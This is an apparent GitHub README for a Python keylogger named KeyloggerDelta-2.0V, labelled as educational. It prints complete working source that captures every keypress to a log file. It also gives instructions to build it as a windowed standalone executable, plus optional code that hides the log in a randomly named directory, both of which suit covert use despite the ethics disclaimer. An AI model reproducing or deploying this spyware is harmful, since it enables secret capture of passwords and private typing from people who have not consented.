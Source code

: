 # KeyloggerDelta-2.0V
This is KeyloggerDelta-2.0V. By Python Code with proper comments and an ethical focus. Open Source - MIT License - Contributions and Ask are welcome to improve its functionality or add new features. (^^) / ♡ -XamRyo-

# Ethical and Open-Source:

This repository contains a simple keylogger implemented in Python for **educational purposes** only. It is intended to demonstrate how keylogging works and should be used responsibly. Unauthorized use of this software may violate privacy laws and is strictly prohibited.

## Features
- Captures and logs keypresses.
- Saves keystrokes to a `log.txt` file.
- Stops logging when the `ESC` key is pressed.
- By default, `log.txt` is stored in the same directory where the script is executed. 
- Optionally, the file can be saved to a specific directory or a random location (requires modification).

## Code
```bash
from pynput.keyboard import Key, Listener

# List to store pressed keys
keys = []

def on_press(key):
    """Handles key press events."""
    keys.append(key)
    write_to_log(keys)

def write_to_log(keys):
    """Converts key events to string and writes to a log file."""
    with open('log.txt', 'w') as logfile:
        for key in keys:
            key = str(key).replace("'", "")  # Remove quotes from key string
            logfile.write(key)

def on_release(key):
    """Stops listener when 'Escape' key is pressed."""
    if key == Key.esc:
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
## Requirements
- Python 3.13.1 or any V2>
- Libraries:
  - [pynput](https://pypi.org/project/pynput/): For capturing keyboard input.
  - [pyinstaller](https://pypi.org/project/pyinstaller/): For converting Python scripts into standalone executables.

## Installation
1. Clone this repository:
    ```bash
    git clone https://github.com/<your-username>/ethical-keylogger-python.git
    cd ethical-keylogger-python
    ```

2. Install the required Python packages:
    ```bash
    python -m pip install –upgrade pip.
    pip install pynput
    pip install pyinstaller
    ```

3. Run the script:
    ```bash
    python KeyloggerDelta-2.0V.py
    ```

## Create Executable
Convert the script into an executable file:
```bash
pyinstaller --clean --onefile --windowed .\KeyloggerDelta-2.0V.py
```

## Output Details (NOT OBLIGATORY):
- The script creates a file named `log.txt`, which stores all the captured keystrokes.
- **Default Location**: The `log.txt` file will be created in the same directory as the script or executable or idk your PC XD.
- **Custom/Random Location**: You can modify the script to save the `log.txt` file to a specific directory or generate a random location:
    - **Specific Directory**:
      Replace the `log.txt` path in the script with the desired directory, e.g.:
      ```python
      with open('C:/logs/log.txt', 'w') as logfile:
      ```
    - **Random Directory**:
      Use Python's `os` and `random` libraries to dynamically create a random directory. Example:
      ```python
      import os
      import random
      random_dir = f"C:/temp/logs-{random.randint(1000, 9999)}/"
      os.makedirs(random_dir, exist_ok=True)
      with open(f"{random_dir}log.txt", 'w') as logfile:
      ```
      This is NOT NECESSARY...

## DISCLAIMER AND LICENCE
This project is for ethical use only. The Dev-XamRyo are not responsible for any misuse. Ensure you have explicit permission to log keystrokes on any system where this tool is used ^-^

## Licence
This project is licensed under the MIT License. Ask and support repository :)
